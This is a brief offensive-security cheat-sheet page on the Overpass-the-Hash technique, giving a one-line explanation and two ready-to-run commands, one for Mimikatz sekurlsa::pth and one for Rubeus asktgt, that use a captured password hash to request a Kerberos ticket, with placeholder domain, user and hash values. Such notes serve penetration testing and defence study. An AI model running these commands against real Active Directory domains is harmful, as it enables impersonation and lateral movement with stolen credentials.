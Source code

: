 # Overpass The Hash

## <mark style="color:yellow;">About</mark>

When <mark style="color:green;">**Pass-The-Hash**</mark> is mostly used to bypass regular login, then <mark style="color:green;">**Overpass-The-Hash**</mark> is using hash for requesting **TGT** from **KDC**.

## <mark style="color:yellow;">Mimikatz</mark>

```powershell
sekurlsa::pth /domain:amogus.kek /user:carni7 /ntlm:1293uo1uwfoi1hw081
```

## <mark style="color:yellow;">Rubeus</mark>

Here we use <mark style="color:red;">**asktgt**</mark> module to request a **TGT** using hash and **KDC**.

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /aes256:1293uo1uwfoi1hw081 /nowrap
```
